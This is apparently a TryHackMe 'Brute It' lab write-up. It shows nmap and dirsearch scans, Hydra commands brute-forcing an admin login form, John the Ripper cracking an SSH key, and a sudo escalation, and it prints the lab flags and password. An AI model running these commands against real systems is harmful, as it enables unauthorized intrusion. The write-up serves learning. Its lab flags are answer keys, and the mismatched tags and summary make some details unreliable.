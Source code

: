 ```yaml
---
title: "🧪 Brute It"
layout: post
collection: writeups
permalink: /writeups/tryhackme-brute-it/
date: 2025-01-10
categories: [TryHackMe]
tags: [react, mysql, logistics]
image: /assets/images/writeups/brute-it/tryhackme-brute-it.png
thumbnail: /assets/images/writeups/brute-it/tryhackme-brute-it.png
icon: fas fa-bolt
excerpt: "Brute-forced SSH using Hydra, cracked RSA key with John the Ripper, and escalated to root on an Ubuntu machine."
description: "Hydra brute-force against an admin panel, SSH key crack with john, and privilege escalation on an Ubuntu machine."
---
```




![Brute It Screenshot](/assets/images/writeups/brute-it/tryhackme-brute-it.png)

## 🧠 Target
- Brute-force login credentials over SSH  
- Hash cracking  
- Privilege escalation

## 🛠 Tools Used
- Hydra  
- Nmap  
- John the Ripper  
- Kali Linux

## 🧭 Steps

### Step 1 — Deployed the target machine
Target IP: `10.10.34.33`  
Deployed the target and confirmed reachability.

![Target Machine](/assets/images/writeups/brute-it/target-machine.png)

### Step 2 — Nmap scan
Command:
nmap -sS -sV 10.10.34.33

markdown
Copy code
Findings: ports `22` (ssh) and `80` (http) open. SSH: **OpenSSH 7.6p1**. Apache: **2.4.29**. OS: **Ubuntu**.

![Nmap](/assets/images/writeups/brute-it/nmap.png)

### Step 3 — Hidden directories
Used dirsearch:
dirsearch -u http://10.10.34.33


Found `/admin` — admin login page available.

![Dirsearch](/assets/images/writeups/brute-it/dirsearch.png)

### Step 4 — Admin page analysis
Visited `http://10.10.34.33/admin`. Devtools revealed a username hint: `admin`.

![Admin Devtools](/assets/images/writeups/brute-it/User-login-info-devtools.png)

### Step 5 — Hydra brute-force
Initial (slow) command:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^login=^Login:Username or password invalid"

makefile
Copy code
Optimized:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 16 -vV 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^&login=Login:Username or password invalid"

ruby
Copy code
Result: `login: admin  password: xavier`

![Hydra](/assets/images/writeups/brute-it/hydra1.png)

### Step 6 — Logged in as admin
Gained user access. Web flag: `THM{brut3_f0rce_is_e4sy}`.

![Admin Login](/assets/images/writeups/brute-it/login-success.png)

### Step 7 — Extracted RSA private key & cracked it
Saved RSA private key and converted it for John:
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH hash
john --show hash

ruby
Copy code
Cracked key allowed SSH as `john`.

![RSA crack](/assets/images/writeups/brute-it/rockinroll.png)

### Step 8 — Shell & flags
Used the private key:
chmod 600 id_rsa
ssh -i id_rsa john@10.10.34.33
cat user.txt

ruby
Copy code
Web Flag: `THM{brut3_f0rce_is_e4sy}`  
User flag present. Then escalated to root.

![Shell](/assets/images/writeups/brute-it/root.png)

### Step 9 — Privilege escalation
Checked sudo rights:
sudo -l
sudo cat /root/root.txt

yaml
Copy code
Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`

![Privilege](/assets/images/writeups/brute-it/sudo.png)

---

## 📘 Lessons Learned
- Enforce account lockout and rate-limiting (prevent brute-force).  
- Use multi-factor authentication or SSH key policies.  
- Avoid guessable credentials and default accounts.

---

## Notes / Artifacts
- Commands used and screenshots are included above.  
- Sanitize any client screenshots before publishing publicly.



